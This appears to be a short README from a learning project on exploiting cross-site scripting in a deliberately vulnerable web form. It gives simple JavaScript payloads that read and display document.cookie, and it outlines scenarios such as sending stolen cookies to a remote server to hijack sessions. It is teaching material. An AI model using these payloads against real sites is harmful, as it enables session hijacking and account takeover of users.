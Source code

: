 # Exploiting XSS vulnerabilities 

## Used payloads
Entering the following input in the form field:
```js
document.getElementById('cookieOutput').innerText = document.cookie;
```
Displays the following output:
![example](./vulnerable_website.png)

The following payloads are also possible:
* Displaying the content of the cookie
```js
alert(document.cookie);
```
* Logging the cookie to the console
```js
console.log(document.cookie);
```

## Scenarios of threats
The following scenarios could be used: 
1. Using this XSS vulnerability to export cookies to a remote server and then use them to hack a user session and perform sensitive actions
2. Injecting a malicious script in a user's client to perform unwanted actions